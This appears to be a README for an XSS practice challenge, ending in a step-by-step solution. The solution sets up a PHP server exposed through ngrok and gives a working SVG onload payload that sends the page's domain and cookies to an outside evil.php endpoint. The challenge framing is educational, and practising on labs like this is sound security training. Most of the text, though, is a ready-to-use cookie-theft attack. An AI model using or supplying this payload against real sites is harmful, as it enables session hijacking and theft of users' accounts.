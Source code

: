 Vulnerable html page contains cookie.
Let's Steal the cookie with evil.php

If you can't solve, look solution 


Are you build your evil payload ?
Let's try ->  https://cyb3rsalih.github.io/xss-challenge/



======= SOLUTION ======= 

1- Create your local php server in folder where evil.php 
` php -S localhost:1234 `

2- Connect your local server to internet
` ngrok http 1234 `

3- Your address is something like this
` http://xxxxxxxxx.ngrok.io `


4- Now add your XSS payload to vulnerable input.
`
<svg onload="function a(){var url = `http://xxxxxxxxx.ngrok.io/evil.php?domain=${document.domain}&cookie=${document.cookie}`;var r=new XMLHttpRequest();r.open('GET', url, true);r.send();};a();">
`